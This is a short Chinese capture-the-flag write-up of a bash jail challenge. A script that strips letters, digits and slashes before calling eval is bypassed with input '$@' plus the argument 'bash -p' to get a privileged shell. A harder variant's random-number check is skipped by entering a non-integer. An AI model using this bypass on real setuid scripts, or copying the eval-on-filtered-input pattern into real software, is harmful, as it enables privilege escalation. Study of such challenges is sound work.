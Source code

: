 好久没打过靶机了，也没更新过，今天在群里看到了群主发了一个题目就玩了一下，顺便水一期wp

题目：

![image-20250322153403638](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250322153403675.png)

```
PATH=/usr/bin
read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```

浅瞄了一眼，发现tr删除了所有字母、数字和斜杠，但保留特殊符号，那就有搞头

ps:$@ 在 Shell 中表示脚本的所有参数，可被 eval 解析。



我们可以构造输入$@，绕过字符过滤。然后再传递参数bash -p启动特权Shell。

解法：

```
echo '$@' | ./a.sh 'bash -p'
```

但是我的不是预期解

![image-20250322153428456](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250322153428487.png)

![image-20250322153442791](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250322153442822.png)

这两个是预期的

然后.....

![image-20250322153453994](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250322153454035.png)

加强版：

```
#!/bin/bash

PATH=/usr/bin

a=$((RANDOM%100))

echo $a

read -r INPUTS


if [[ "$INPUTS" -ne "$a" ]]; then
    exit 1
fi

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```

加了一个随机数，我本身是说爆破的......

![image-20250322153509806](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250322153509848.png)

然后后面有空瞄了几眼，因为我知道它在进行整数的比较，那我就在想如果输入一个非整数会怎么样，然后......

![image-20250322153523210](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250322153523241.png)

有戏

![image-20250322153725388](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250322153725419.png)

然后我后面我想找一下这方面的资料，但是我没找到，我打算明天再去问问群主，因为他bash比较好（不过我感觉他会自己来看我的wp）

目前我的理解是当使用-ne比较非数字字符串时，Bash会尝试将两边转换为整数。如果转换失败，就会报错什么的，[[ ]]表达式的结果会被视为false，因为比较操作本身无效，导致整个条件判断为假，因此不执行exit 1。



不管了，睡觉，等群主给我解惑了

<!-- ##{"timestamp":1740728321}## -->
